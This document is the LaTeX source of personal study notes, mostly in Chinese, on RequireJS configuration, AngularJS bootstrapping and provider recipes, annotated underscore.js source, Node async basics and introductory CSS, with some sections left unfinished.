\item If it is not possible to upgrade the shimmed code to use AMD define() calls, as of RequireJS 2.1.11, the optimizer has a wrapShim build option that will try to automatically wrap the shimmed code in a define() for a build. This changes the scope of shimmed dependencies, so it is not guaranteed to always work, but, for example, for shimmed dependencies that depend on an AMD version of Backbone, it can be helpful.

\item The init function will not be called for AMD modules. For example, you cannot use a shim init function to call jQuery's noConflict. See Mapping Modules to use noConflict for an alternate approach to jQuery.   ???为啥不能用呢?

\item Shim config is not supported when running AMD modules in node via RequireJS (it works for optimizer use though). Depending on the module being shimmed, it may fail in Node because Node does not have the same global environment as browsers. As of RequireJS 2.1.7, it will warn you in the console that shim config is not supported, and it may or may not work. If you wish to suppress that message, you can pass requirejs.config({ suppress: { nodeShim: true }});.



Important optimizer notes for "shim" config:
\begin{itemize}
\item You should use the mainConfigFile build option to specify the file where to find the shim config. Otherwise the optimizer will not know of the shim config. The other option is to duplicate the shim config in the build profile.
\item Do not mix CDN loading with shim config in a build. Example scenario: you load jQuery from the CDN but use the shim config to load something like the stock version of Backbone that depends on jQuery. When you do the build, be sure to inline jQuery in the built file and do not load it from the CDN. Otherwise, Backbone will be inlined in the built file and it will execute before the CDN-loaded jQuery will load. This is because the shim config just delays loading of the files until dependencies are loaded, but does not do any auto-wrapping of define. After a build, the dependencies are already inlined, the shim config cannot delay execution of the non-define()'d code until later. define()'d modules do work with CDN loaded code after a build because they properly wrap their source in define factory function that will not execute until dependencies are loaded. So the lesson: shim config is a stop-gap measure for non-modular code, legacy code. define()'d modules are better.
\item For local, multi-file builds, the above CDN advice also applies. For any shimmed script, its dependencies must be loaded before the shimmed script executes. This means either building its dependencies directly in the buid layer that includes the shimmed script, or loading its dependencies with a require([], function (){}) call, then doing a nested require([]) call for the build layer that has the shimmed script.
\item If you are using uglifyjs to minify the code, do not set the uglify option toplevel to true, or if using the command line do not pass -mt. That option mangles the global names that shim uses to find exports.
\end{itemize}





\subsection{模块定义}
模块应该遵循js的模块模式[先省略,日后补充][http://www.adequatelygood.com/JavaScript-Module-Pattern-In-Depth.html]

简单的键值对,没有依赖,那么将键值对对象作为参数传递给define()

\begin{lstlisting}
//Inside file my/shirt.js:
define({
    color: "black",
    size: "unisize"
});
\end{lstlisting}

    如果没有依赖,只是需要函数来做一些先期的设定,那么讲一个函数传递给define()
    \begin{lstlisting}
//my/shirt.js now does setup work
//before returning its module definition.
define(function () {
    //Do setup work here

    return {
        color: "black",
        size: "unisize"
    }
});
    \end{lstlisting}

    如果有依赖,那么define()的一个参数是一个数组,数组元素是依赖的module的muduleID,第二个参数是一个函数,这个函数接受的参数就是你的module依赖的module,顺序和第一个参数数组元素顺序相同,这个函数必须返回一个对象,就是你定义的module。

    \begin{lstlisting}
//my/shirt.js now has some dependencies, a cart and inventory
//module in the same directory as shirt.js
define(["./cart", "./inventory"], function(cart, inventory) {
        //return an object to define the "my/shirt" module.
        return {
            color: "blue",
            size: "large",
            addToCart: function() {
                inventory.decrement(this);
                cart.add(this);
            }
        }
    }
);
    \end{lstlisting}

    在上面的例子中,/my/shirt这个module被创建了,他依赖于/my/cart和/my/inventory.第二个参数的function会在依赖的两个module加载起来之后再被执行。

    当然,这个返回的module不一定需要是个object,返回function对象也同样可以的。

    对于遵循CommonJS的代码,可以采用下面的方式来重用以后代码。

    \begin{lstlisting}
define(function(require, exports, module) {
        var a = require('a'),
            b = require('b');

        //Return the module value
        return function () {};
    }
);
    \end{lstlisting}

    有时候,你会看到define()的第一个参数是你定义的module的moduleID,但是不推荐这么写,因为如果你改变你的module的目录,你需要自己来更改moduleID,所以推荐由Require.js来自动定义你的moduleID。

    \begin{lstlisting}
//Explicitly defines the "foo/title" module:
    define("foo/title",
        ["my/cart", "my/inventory"],
        function(cart, inventory) {
            //Define foo/title object in here.
       }
    );
    \end{lstlisting}

    \subsection{Configuration}

    有几种方式来调用require.config(),先通过script标签来加载Require.js,然后在下一个script标签中包含对require.config()的调用的代码。
    \begin{lstlisting}
<script src="scripts/require.js"></script>
<script>
  require.config({
    baseUrl: "/another/path",
    paths: {
        "some": "some/v1.0"
    },
    waitSeconds: 15
  });
  require( ["some/module", "my/module", "a.js", "b.js"],
    function(someModule,    myModule) {
        //This function will be called when all the dependencies
        //listed above are loaded. Note that this function could
        //be called before the page is loaded.
        //This callback is optional.
    }
  );
</script>
    \end{lstlisting}
    也可以在main-data属性指定的js文件中调用。在这种情况下,需要注意script标签的异步加载,下面的标签引用的代码可能在main.js之前执行。
    \begin{lstlisting}
<script data-main="scripts/main" src="scripts/require.js"></script>
<script src="scripts/other.js"></script>
    \end{lstlisting}
    \begin{lstlisting}
// contents of main.js:
require.config({
    paths: {
        foo: 'libs/foo-1.1.3'
    }
});
    \end{lstlisting}
    \begin{lstlisting}
// contents of other.js:

// This code might be called before the require.config() in main.js
// has executed. When that happens, require.js will attempt to
// load 'scripts/foo.js' instead of 'scripts/libs/foo-1.1.3.js'
require( ['foo'], function( foo ) {

});
    \end{lstlisting}

    当然,你也可以先定义一个Require的全局config对象,然后再用script标签加载Require.js。使用 require = {},而不是window.require = {}。这样保证在IE下得正确性。

    \begin{lstlisting}
<script>
    var require = {
        deps: ["some/module1", "my/module2", "a.js", "b.js"],
        callback: function(module1, module2) {
            //This function will be called when all the dependencies
            //listed above in deps are loaded. Note that this
            //function could be called before the page is loaded.
            //This callback is optional.
        }
    };
</script>
<script src="scripts/require.js"></script>
    \end{lstlisting}



%\section{Toturial}

\subsection{bootstrap}

\begin{HTML5}[app/index.html]
<!doctype html>
<html lang="en" ng-app>
<head>
  <meta charset="utf-8">
  <title>My HTML File</title>
  <link rel="stylesheet" href="bower_components/bootstrap/dist/css/bootstrap.css">
  <link rel="stylesheet" href="css/app.css">
  <script src="bower_components/angular/angular.js"></script>
</head>
<body>

  <p>Nothing here {{'yet' + '!'}}</p>

</body>
</html>
\end{HTML5}


\subsubsection{directive}

\begin{HTML5}[ng-app]
<html ng-app>
\end{HTML5}

The ng-app attribute represents an Angular directive named ngApp (Angular uses spinal-case for its custom attributes and camelCase for the corresponding directives which implement them). This directive is used to flag the html element that Angular should consider to be the root element of our application. This gives application developers the freedom to tell Angular if the entire html page or only a portion of it should be treated as the Angular application.


ng-app对应名字为ngApp的directive(spinal-case对应camelCase).

告诉AngularJs这个节点应该被当做应用的root element。

\subsubsection{angular.js}

\begin{HTML5}[ng-app]
<script src="bower_components/angular/angular.js">
\end{HTML5}

This code downloads the angular.js script and registers a callback that will be executed by the browser when the containing HTML page is fully downloaded. When the callback is executed, Angular looks for the ngApp directive. If Angular finds the directive, it will bootstrap the application with the root of the application DOM being the element on which the ngApp directive was defined.



\subsubsection{expresson}

\begin{HTML5}[ng-app]
Nothing here {{'yet' + '!'}}
\end{HTML5}

表达式,每次值发生变化的时候都会改变。


\subsubsection{bootstrap}

Bootstrapping AngularJS apps automatically using the ngApp directive is very easy and suitable for most cases. In advanced cases, such as when using script loaders, you can use imperative / manual way to bootstrap the app.


There are 3 important things that happen during the app bootstrap:

\begin{itemize}

\item The injector that will be used for dependency injection is created.

\item The injector will then create the root scope that will become the context for the model of our application.

\item Angular will then "compile" the DOM starting at the ngApp root element, processing any directives and bindings found along the way.

\end{itemize}



Once an application is bootstrapped, it will then wait for incoming browser events (such as mouse click, key press or incoming HTTP response) that might change the model. Once such an event occurs, Angular detects if it caused any model changes and if changes are found, Angular will reflect them in the view by updating all of the affected bindings.

The structure of our application is currently very simple. The template contains just one directive and one static binding, and our model is empty. That will soon change!


在bootstrap的过程中发生的3个重要的事情:
\begin{itemize}
\item injector会被创建,用来对依赖关系的注入。
\item injector会创建root scope, 用作我们应用的model的上下文。
\item Angular会编译ngApp的DOM,处理所有的directives和bindings
\end{itemize}

一旦App启动之后,他将等待所有的browser events,一旦这些事件发生,Angular会检测这些事件是否导致model发生变化。一旦发生变化,Angular会将这些变化反映到有效的绑定上。





%	\section{AngularJS}
	  这里,通过AngularJS自带的例子来学习他。
	
	  首先,从github上clone下整个项目。然后使用npm安装依赖,在这里,即使使用镜像,也可能报错,所以最好使用vpn来翻墙安装依赖包。然后启动应用,这里如果第一次启动了应用,再启动报错的话,可以关闭开关命令窗口,重新启动。原因可能是因为是使用的是ctrl+z来关闭的nodejs,而不是使用的ctrl+c来关闭。
	
	  在读完整个教程,对AngularJS有一个初步的理解之后,开始学习一下AngularJS的基本概念。
	
	
	  \subsection{Template}
	  可以看做HTML的增强。在HTML上增加了angular的一些元素和属性。angular使用template,model和controller来渲染用户在浏览器中看到的view。
	
	  有这样一些元素和属性:
	  \begin{itemize}
	  \item Directive --
	  \item Markup -- \{\{\}\}就是markup,将表达式和元素绑定。 
	  \item Filter -- 格式化数据为想要显示的样子。
	  \item Form controls -- 验证用户输入。
	  \end{itemize}
	
	
	  \subsection{Controller}
	
	  Controller是一个构造函数,用来提升Angular Scope,稍后解释什么是Angular Scope。
	
	  当一个Controller通过ng-controller和一个DOM绑定,Angular将会通过这个构造方法实例化一个Controller的对象。一个新的子scope将最为参数传递给构造方法,参数名是\$scope。
	
	  可以通过Controller来
	  \begin{itemize}
	  \item 初始化\$scope对象的属性;
	  \item 给\$scope对象添加行为。
	  \end{itemize}
	
	  但是不要通过Controller来
	  \begin{itemize}
	  \item 操作DOM,Controller只应该包含业务逻辑。在Controller中加入展现的逻辑将影响他的可测试性。angular有databinding来处理绝大情况,也可以使用directive来封装DOM操作。
	  \item 格式化输入,使用form control来做。
	  \item 过滤输出,使用filter来做。
	  \item 在Controller共享代码和状态,使用service来完成。
	  \item 管理其他部件的生命周期。例如实例化service。
	  \end{itemize}
	
	  保持Controller简单,只做单一的view需要的业务逻辑,而将不属于Contoller的逻辑分装在service中,通过依赖注入来一来service。
	
	  You can associate Controllers with scope object implicitly via the ngController directive or \$route service. ??? 这句话真不知道什么意思!!!
	
	  可以这么理解,碰到ngController directive,这个directive会产生一个\$scope,然后调用controller这个构造函数,而对于\$route service,当跳转到相应的hash url时,也会产生一个新的\$scope,并且绑定controller和template,这也是为什么在这种情况下,template中不需要使用ngController这个directive。
	
	  在ngController是嵌套的情况下,他们的scope是可以访问父scope的property,如果他们本身的property没有因为名字相同隐藏了父scope的property的话。
	  
	  
	 \subsection{Service}
	 
	 \subsection{Provider}
	 
	 对于AngularJS应用,我们使用injector来初始话我们需要的一些有用的对象,service和一些特殊的object,如controller,directive。但是injector需要知道怎么来创建这些对象,这就需要我们来注册一些``菜单''来告诉injector怎么来创建这些对象。总共有五种类型的``菜单'',这里,最啰嗦,但是也是最全面的provider,其他的value,Factory, Service和constant,只是一些provider的语法糖而已。
	 
	 对于被注册的recipe,都有一个对象的标识符,以及怎么来创建这个对象的描述。并且,任何一个recipe都属于一个angular的module,angular的module就是一个用来盛装一个或多个recipe的包裹。而且module还有对其他module依赖的信息。
	  
	  当一个angular应用启动的时候,angular将创建一个injector的实例,他将按顺序穿件一个recipe的登记档,所有定义在core ng module,应用module,以及应用module的依赖的recipe作为一个union登记在其中,当你需要创建一个对象给你的应用时,injector就会查询这个recipe登记档。
	  
	  \paragraph{Value Recipe}
	  
	  我们创建一个简单的service,他提供一个字符串用来最为远程API的授权ID。
	  \begin{JavaScript}
	var myApp = angular.module('myApp', []);	
	myApp.value('clientId', 'a12345654321x');  
	  \end{JavaScript}
	  接着我们通过angular的数据绑定来显示他。
	  \begin{JavaScript}
	myApp.controller('DemoController', ['clientId', function DemoController(clientId) {
  		this.clientId = clientId;
	}]);
	  \end{JavaScript}
	  
	  
	  \begin{HTML}
	<html ng-app="myApp">
  		<body ng-controller="DemoController as demo">
    		Client ID: {{demo.clientId}}
 		</body>
	</html>	  
	  \end{HTML}
	  
	  这个例子使用了value recipe来定义一个简单的service,这个service就是一个字符串。
	  
	  
	  \paragraph{Factory Recipe}
	  
	  value recipe使用简单,但是缺乏一些我们平时需要的很重要的功能,让我们来看看Factory recipe,他就拥有这些重要的功能:
	  
	  \begin{itemize}
	  	\item 可以使用其他service;
	  	\item service的初始化;
	  	\item 延时加载。
	  \end{itemize}
	  
	  
	  Factory recipe通过带有零个或者多个参数的函数来构造新的service,这个函数的返回值就是这个recipe创建的service实例。有一点需要特别注意,angular创建的service都是单例,这就表示injector最多对每个recipe使用一次来穿件service实例,接着,injector将缓存这个实例以供未来使用。
	  
	  我们使用Factory recipe来重写上面的例子。我们可以返回一个字符串字面量。
	  
	  \begin{JavaScript}
myApp.factory('clientId', function clientIdFactory() {
  return 'a12345654321x';
});	  
	  \end{JavaScript}
	  
	  我们也可创建一个service来计算token的值,这个service依赖clientId。
	  \begin{JavaScript}
myApp.factory('apiToken', ['clientId', function apiTokenFactory(clientId) {
  var encrypt = function(data1, data2) {
    // NSA-proof encryption algorithm:
    return (data1 + ':' + data2).toUpperCase();
  };
 
  var secret = window.localStorage.getItem('myApp.secret');
  var apiToken = encrypt(clientId, secret);
 
  return apiToken;
}]);	  
	  \end{JavaScript}
	  
	  
	  \paragraph{Service Recipe}
	  
	  下面是我们定制的Service的构造函数
	  
	  \begin{JavaScript}
function UnicornLauncher(apiToken) {
 
  this.launchedCount = 0;
  this.launch = function() {
    // make a request to the remote api and include the apiToken
    ...
    this.launchedCount++;
  }
}	  
	  \end{JavaScript}

	他依赖于apiToken,我们可以通过Factory Recipe来注册他,通过new操作来生成Service实例。

	\begin{JavaScript}
myApp.factory('unicornLauncher', ["apiToken", function(apiToken) {
  return new UnicornLauncher(apiToken);
}]);	
	\end{JavaScript}	
	
	但是,这个情况下更加适合Service Recipe,他类似于Value和Factory recipe,但是是通过new来调用,他可以带参数,参数也是通过依赖来解决。
	
	\begin{JavaScript}
myApp.service('unicornLauncher', ["apiToken", UnicornLauncher]);	
	\end{JavaScript}  
	
	
	
	\paragraph{Provider Recipe}
	
	
	正如我们前面说的,其他所有的recipe都只是在Provider recipe之上包裹了一层语法糖。Factory Recipe就是注册了一个空的provider recipe,将provider的\$get设置为Factory recipe传入的函数。
	
	大多数情况下,其他recipe已经可以满足我们的需求了,我们使用provider recipe的原因是需要在angular app load起来之前,通过config方法来对service做一些设置。看下面的例子
	
	\begin{lstlisting}
myApp.provider('unicornLauncher', function UnicornLauncherProvider() {
  var useTinfoilShielding = false;
 
  this.useTinfoilShielding = function(value) {
    useTinfoilShielding = !!value;
  };
 
  this.$get = ["apiToken", function unicornLauncherFactory(apiToken) {
 
    // let's assume that the UnicornLauncher constructor was also changed to
    // accept and use the useTinfoilShielding argument
    return new UnicornLauncher(apiToken, useTinfoilShielding);
  }];
});	
	\end{lstlisting}  
	
	\begin{JavaScript}
myApp.config(["unicornLauncherProvider", function(unicornLauncherProvider) {
  unicornLauncherProvider.useTinfoilShielding(true);
}]);	
	\end{JavaScript}
	
	
	可以看到,我们天通过module的API来调用config方法,然后设置了unicornLauncherProvider的参数。在这里,unicorn provider使用过provider injector来注入的,这个injector不同于实例injector。在应用启动完成之前,provider injector初始化所有provider的实例,我们叫他应用生命周期的configuraton阶段。在这个阶段,service是不能够被使用的,因为他们还没有被初始化。
	
	一旦启动阶段结束,和provider的交互将不再被允许,同时开始创建service,我们称之为应用生命周期的运行阶段。
	
	
	\paragraph{Constant Recipe}
	
	因为在应用声明的configuration阶段,所有的service都是不可用的,即使是value recipe,因为他们还没有实例化。但是有些东西,如url的前缀部分,他们没有依赖或者设置,需要在整个生命周期的configuration和run阶段都可以访问,这就是Constant Recipe要做的。
	
	
	\begin{JavaScript}
myApp.constant('planetName', 'Greasy Giant');	
	\end{JavaScript}
	
	
	\begin{JavaScript}
myApp.config(['unicornLauncherProvider', 'planetName', function(unicornLauncherProvider, planetName) {
  unicornLauncherProvider.useTinfoilShielding(true);
  unicornLauncherProvider.stampText(planetName);
}]);	
	\end{JavaScript}
	
	例如,在这个例子里面,unicorn发射的行星名字是在整个应用固定的,所以我们使用constant recipe,并且在configuration阶段提供给provider使用。而由于constant recipe是在整个生命周期都可以访问,所以我们在运行时也可以访问他的值。
	
	
	\begin{JavaScript}
myApp.controller('DemoController', ["clientId", "planetName", function DemoController(clientId, planetName) {
  this.clientId = clientId;
  this.planetName = planetName;
}]);	
	\end{JavaScript}
	  
	\begin{HTML}
<html ng-app="myApp">
  <body ng-controller="DemoController as demo">
   Client ID: {{demo.clientId}}
   <br>
   Planet Name: {{demo.planetName}}
  </body>
</html>	
	\end{HTML}  
	
	
	\paragraph{Special Purpose Objects}
	
	
	\paragraph{结论}
	
	
  


%\section{underscore}

返回自己本身的函数,空函数

\begin{JavaScript}
  _.identity = function(value) {
    return value;
  };
  
  _.noop = function(){};
\end{JavaScript}

方法返回传入参数名字为key的property:

\begin{JavaScript}
  _.property = function(key) {
    return function(obj) {
      return obj[key];
    };
  };
\end{JavaScript}

判断对象是否包含指定的key,value对。第8行,此处或后面是用来判断当传入的pair的value是undefined时,obj是否包含key这个property。

\begin{JavaScript}
  _.matches = function(attrs) {
    var pairs = _.pairs(attrs), length = pairs.length;
    return function(obj) {
      if (obj == null) return !length;
      obj = new Object(obj);
      for (var i = 0; i < length; i++) {
        var pair = pairs[i], key = pair[0];
        if (pair[1] !== obj[key] || !(key in obj)) return false;
      }
      return true;
    };
  };
  
  _.has = function(obj, key) {
    return obj != null && hasOwnProperty.call(obj, key);
  }; 
\end{JavaScript}

生成键值对的数组,数组的元素是一个数组,这个数组第一个元素是key,第二个元素是value

\begin{JavaScript}
  _.pairs = function(obj) {
    var keys = _.keys(obj);
    var length = keys.length;
    var pairs = Array(length);
    for (var i = 0; i < length; i++) {
      pairs[i] = [keys[i], obj[keys[i]]];
    }
    return pairs;
  };
\end{JavaScript}
\begin{JavaScript}
  var nativeKeys = Object.keys;
  
  _.keys = function(obj) {
    if (!_.isObject(obj)) return [];
    if (nativeKeys) return nativeKeys(obj);
    var keys = [];
    for (var key in obj) if (_.has(obj, key)) keys.push(key);
    return keys;
  };  
\end{JavaScript}

\begin{JavaScript}
  var createCallback = function(func, context, argCount) {
    if (context === void 0) return func;
    switch (argCount == null ? 3 : argCount) {
      case 1: return function(value) {
        return func.call(context, value);
      };
      case 2: return function(value, other) {
        return func.call(context, value, other);
      };
      case 3: return function(value, index, collection) {
        return func.call(context, value, index, collection);
      };
      case 4: return function(accumulator, value, index, collection) {
        return func.call(context, accumulator, value, index, collection);
      };
    }
    return function() {
      return func.apply(context, arguments);
    };
  };
\end{JavaScript}

用于将context和function绑定。1,2,3个参数的情况下使用对于当前引擎的最佳性能实现。

void expression 表示undefined。void关键字带一个参数,返回的结果永远是undefined
\begin{JavaScript}
  void 0
  void (0)
  void "hello"
  void (new Date())
//all will return undefined
\end{JavaScript}
使用void 0的好处是:保证结果永远是undefined,因为undefined在JavaScript中不是一个关键字。


\begin{JavaScript}
  _.iteratee = function(value, context, argCount) {
    if (value == null) return _.identity;
    if (_.isFunction(value)) return createCallback(value, context, argCount);
    if (_.isObject(value)) return _.matches(value);
    return _.property(value);
  };
\end{JavaScript}

内部使用,对于不同的value返回不同的函数(待补充)

\subsection{Collections Function}
\paragraph{each, forEach}对每个值执行函数。
\begin{JavaScript}
  _.each = _.forEach = function(obj, iteratee, context) {
    if (obj == null) return obj;
    iteratee = createCallback(iteratee, context);
    var i, length = obj.length;
    if (length === +length) {
      for (i = 0; i < length; i++) {
        iteratee(obj[i], i, obj);
      }
    } else {
      var keys = _.keys(obj);
      for (i = 0, length = keys.length; i < length; i++) {
        iteratee(obj[keys[i]], keys[i], obj);
      }
    }
    return obj;
  };
\end{JavaScript}
	
length === +length 判断length是否是数字。

数组就迭代数组,否则迭代所有属性执行callback function。

\paragraph{map, collect}返回一个数组,结果是使用每个值来执行函数的返回值的集合。
\begin{JavaScript}
  _.map = _.collect = function(obj, iteratee, context) {
    if (obj == null) return [];
    iteratee = _.iteratee(iteratee, context);
    var keys = obj.length !== +obj.length && _.keys(obj),
        length = (keys || obj).length,
        results = Array(length),
        currentKey;
    for (var index = 0; index < length; index++) {
      currentKey = keys ? keys[index] : index;
      results[index] = iteratee(obj[currentKey], currentKey, obj);
    }
    return results;
  };
\end{JavaScript}	

傻了!!! 上面的代码可以拆分为:

\begin{JavaScript}
  var keys = obj.length !== +obj.length && _.keys(obj); 
  var length = (keys || obj).length;
  var results = Array(length);
  var currentKey;
\end{JavaScript}

\paragraph{reduce} 从集合通过function来生成一个单一的值,如果不提供memo对象,则取集合中的第一个对象作为memo

\begin{JavaScript}
  var reduceError = 'Reduce of empty array with no initial value';
  
  _.reduce = _.foldl = _.inject = function(obj, iteratee, memo, context) {
    if (obj == null) obj = [];
    iteratee = createCallback(iteratee, context, 4);
    var keys = obj.length !== +obj.length && _.keys(obj),
        length = (keys || obj).length,
        index = 0, currentKey;
    if (arguments.length < 3) {
      if (!length) throw new TypeError(reduceError);
      memo = obj[keys ? keys[index++] : index++];
    }
    for (; index < length; index++) {
      currentKey = keys ? keys[index] : index;
      memo = iteratee(memo, obj[currentKey], currentKey, obj);
    }
    return memo;
  };
\end{JavaScript}

第10行,如果memo不存在,而且是个空的集合,报错。

第11行,如果memo不存在,则取集合中的第一个元素作为memo。

回调函数接受4个参数,memo, value, index(key),集合对象。

\paragraph{reduceRight} 前面的reduce是从左往右,这个方法是从右往左。

\begin{JavaScript}
  var reduceError = 'Reduce of empty array with no initial value';	

  _.reduceRight = _.foldr = function(obj, iteratee, memo, context) {
    if (obj == null) obj = [];
    iteratee = createCallback(iteratee, context, 4);
    var keys = obj.length !== + obj.length && _.keys(obj),
        index = (keys || obj).length,
        currentKey;
    if (arguments.length < 3) {
      if (!index) throw new TypeError(reduceError);
      memo = obj[keys ? keys[--index] : --index];
    }
    while (index--) {
      currentKey = keys ? keys[index] : index;
      memo = iteratee(memo, obj[currentKey], currentKey, obj);
    }
    return memo;
  };
\end{JavaScript}

和前一个方法不同就是从后往前迭代。

这里可以看到0转换为boolean型是false。

\paragraph{some} 判断是否有一个测试返回true。

\begin{JavaScript}
  _.some = _.any = function(obj, predicate, context) {
    if (obj == null) return false;
    predicate = _.iteratee(predicate, context);
    var keys = obj.length !== +obj.length && _.keys(obj),
        length = (keys || obj).length,
        index, currentKey;
    for (index = 0; index < length; index++) {
      currentKey = keys ? keys[index] : index;
      if (predicate(obj[currentKey], currentKey, obj)) return true;
    }
    return false;
  };
\end{JavaScript}

\paragraph{find} 返回第一个满足测试的条件的值

\begin{JavaScript}

  _.find = _.detect = function(obj, predicate, context) {
    var result;
    predicate = _.iteratee(predicate, context);
    _.some(obj, function(value, index, list) {
      if (predicate(value, index, list)) {
        result = value;
        return true;
      }
    });
    return result;
  };
\end{JavaScript}


\paragraph{filter} 返回所有符合测试的值的数组

\begin{JavaScript}
  _.filter = _.select = function(obj, predicate, context) {
    var results = [];
    if (obj == null) return results;
    predicate = _.iteratee(predicate, context);
    _.each(obj, function(value, index, list) {
      if (predicate(value, index, list)) results.push(value);
    });
    return results;
  };
\end{JavaScript}

\paragraph{reject} 所有测试不通过的值得数组,通过调用filter方法来实现。

\begin{JavaScript}
  _.negate = function(predicate) {
    return function() {
      return !predicate.apply(this, arguments);
    };
  };
  
  _.reject = function(obj, predicate, context) {
    return _.filter(obj, _.negate(_.iteratee(predicate)), context);
  };
\end{JavaScript}

\paragraph{every} 所有测试都通过的时候返回true, 没有什么特别不好理解的。

\begin{JavaScript}
  _.every = _.all = function(obj, predicate, context) {
    if (obj == null) return true;
    predicate = _.iteratee(predicate, context);
    var keys = obj.length !== +obj.length && _.keys(obj),
        length = (keys || obj).length,
        index, currentKey;
    for (index = 0; index < length; index++) {
      currentKey = keys ? keys[index] : index;
      if (!predicate(obj[currentKey], currentKey, obj)) return false;
    }
    return true;
  };
\end{JavaScript}

\paragraph{contains} 也没有啥不好懂的。
 
\begin{JavaScript}
  _.contains = _.include = function(obj, target) {
    if (obj == null) return false;
    if (obj.length !== +obj.length) obj = _.values(obj);
    return _.indexOf(obj, target) >= 0;
  };
\end{JavaScript}

\paragraph{invoke} 调用集合中的每个元素的一个方法(使用参数)

\begin{JavaScript}
  _.invoke = function(obj, method) {
    var args = slice.call(arguments, 2);
    var isFunc = _.isFunction(method);
    return _.map(obj, function(value) {
      return (isFunc ? method : value[method]).apply(value, args);
    });
  };
\end{JavaScript}

使用\_.map来调用方法,收集结果。

第2行,将传入的第三个参数起作为参数传给每个方法。

如果method是function,就将每个元素作为上下文来调用这个方法,如果method是方法名,则调用每个元素上的这个方法。

\paragraph{pluck} 用来取得所有元素的某个property的数组。

\begin{JavaScript}
  _.pluck = function(obj, key) {
    return _.map(obj, _.property(key));
  };
\end{JavaScript}

\_.property方法返回的是一个方法,这个方法会返回传入的对象的名字为key的property的值。


\paragraph{where, findWhere} where是找到所有包含attrs上键值对的item。使用\.filter来过滤,过滤条件是\lstinline!_.matches!; findWhere则是找到第一个满足条件的item

\begin{JavaScript}
  _.where = function(obj, attrs) {
    return _.filter(obj, _.matches(attrs));
  };
  
  _.findWhere = function(obj, attrs) {
    return _.find(obj, _.matches(attrs));
  };
\end{JavaScript}

\paragraph{max, min}

\begin{JavaScript}
  _.max = function(obj, iteratee, context) {
    var result = -Infinity, lastComputed = -Infinity,
        value, computed;
    if (iteratee == null && obj != null) {
      obj = obj.length === +obj.length ? obj : _.values(obj);
      for (var i = 0, length = obj.length; i < length; i++) {
        value = obj[i];
        if (value > result) {
          result = value;
        }
      }
    } else {
      iteratee = _.iteratee(iteratee, context);
      _.each(obj, function(value, index, list) {
        computed = iteratee(value, index, list);
        if (computed > lastComputed || computed === -Infinity && result === -Infinity) {
          result = value;
          lastComputed = computed;
        }
      });
    }
    return result;
  };
\end{JavaScript}

分两种情况处理,如果不存在回调方法,直接查找最大的值就可以了。

如果存在回调方法。则使用回调方法来计算比较的值。

第16行,||后部分是用来处理回调计算结果就是\lstinline!-Infinity!,而且result可能没有被赋值(也可能已经赋值为-Infinity,但这个时候不影响结果)的情况下,给result赋值。


\begin{JavaScript}
  _.min = function(obj, iteratee, context) {
    var result = Infinity, lastComputed = Infinity,
        value, computed;
    if (iteratee == null && obj != null) {
      obj = obj.length === +obj.length ? obj : _.values(obj);
      for (var i = 0, length = obj.length; i < length; i++) {
        value = obj[i];
        if (value < result) {
          result = value;
        }
      }
    } else {
      iteratee = _.iteratee(iteratee, context);
      _.each(obj, function(value, index, list) {
        computed = iteratee(value, index, list);
        if (computed < lastComputed || computed === Infinity && result === Infinity) {
          result = value;
          lastComputed = computed;
        }
      });
    }
    return result;
  };
\end{JavaScript}

和max的情况刚好相反。没有什么需要理解的地方了。

\paragraph{shuffle}洗牌算法,这里是用的是Fisher-Yates shuffle, inside-out方法。

算法大致思路是,有一个原始数组,一个拷贝。连续增大的i,每次去随机数在0~i之间,如果随机数等于i,就将随机数位置的值拷贝到i位置,然后从源数组将值拷贝到随机数的位置。

\begin{JavaScript}
  _.shuffle = function(obj) {
    var set = obj && obj.length === +obj.length ? obj : _.values(obj);
    var length = set.length;
    var shuffled = Array(length);
    for (var index = 0, rand; index < length; index++) {
      rand = _.random(0, index);
      if (rand !== index) shuffled[index] = shuffled[rand];
      shuffled[rand] = set[index];
    }
    return shuffled;
  };
\end{JavaScript}


\paragraph{sample}



%\input{javascript/chapter-javaScript.library.jquery}

\chapter{练习项目}

  \section{NuoNuo Picture Gallary}

  初步的设想是开发一个图片管理的website,包括导入图片,给图片加标注,加标签。按日期分类,安标签分类,浏览图片。

  服务器采用NodeJs和Express框架。数据库采用MongoDB.前端框架使用AngularJs,然后需要使用这个地方可以考虑是不是需要使用requireJs之类的加载。

  然后可以练习的包括js加载的优化。

  最先要考虑的是图片保存的策略,这里先采用元数据存储在DB中,查询返回所需要图片的URL,然后浏览器从对应的URL来读取图片。。

  首先,我们需要建立一个angularJS的项目,采用网上的Angular-seed,貌似这是一个为开发搭建的框架,包括了单元测试,e2e测试,包得依赖。目前已经通过angularJS的教程,初步学习了怎么开发AngularJS应用,接着,要学习一下怎么来组织AngularJS的代码。


  第一篇文章,怎么组织AngularJS的代码。

  1. 不要开发大的App,写小的,模块化的,将他们组合起来形成大的应用。




\chapter{Node}

事件驱动的非阻塞I/O.

\section{模块加载}

\section{异步I/O}


\subsubsection{轮询}

轮询技术:
\begin{itemize}
\item read 通过重复调用来检查I/O状态。

\item select ??? 改进在哪里??

\item 
\end{itemize}


\subsubsection{异步编程的难点}

\begin{itemize}
\item 异常处理.

Node在处理异常上形成了一种约定,将异常作为回调函数的第一个实参传回,如果为空值,
则表明异步调用没有异常抛出

\begin{JavaScript}
async(function (err, results) {
// TODO
});
\end{JavaScript}

在编写异步方法时,只要将异常正确地传递给用户的回调方法即可,无须过多处理。


\item 函数嵌套过深

\item 阻塞代码

\item 多线程编程

child_process是其基础API, cluster模块是更深层次的应用。

\item 异步转同步

对同步需求没有对应的API满足;
\end{itemize}


\subsection{异步编程解决方案}

\begin{itemize}
\item 事件发布/订阅模式
\item promise/deffered模式
\item 流程控制模式
\end{itemize}

\paragraph{xxx}


\part{CSS}
\chapter{CSS}

\section{What is CSS}

Cascading Style Sheets (CSS) is a language for specifying how documents are presented to users.

A document is a collection of information that is structured using a markup language.

Presenting a document to a user means converting it into a useable form for your audience.

\begin{HTML5}[demo]
<!DOCTYPE html>
<html>
  <head>
  <meta charset="UTF-8">
  <title>Sample document</title>
  </head>

  <body>
    <p>
      <strong>C</strong>ascading
      <strong>S</strong>tyle
      <strong>S</strong>heets
    </p>
  </body>
</html>
\end{HTML5}

\section{Why use CSS}

Keeping the styles separate from your HTML content:
\begin{itemize}
\item Helps avoid duplication
\item Makes maintenance easier
\item Allows you to make a site-wide change in one place
\end{itemize}


\begin{CSS}[style1.css]
strong {color:red;}
\end{CSS}

\begin{HTML5}
<!DOCTYPE html>
<html>
  <head>
  <meta charset="UTF-8">
  <title>Sample document</title>
  <link rel="stylesheet" type="text/css" href="style1.css">
  </head>

  <body>
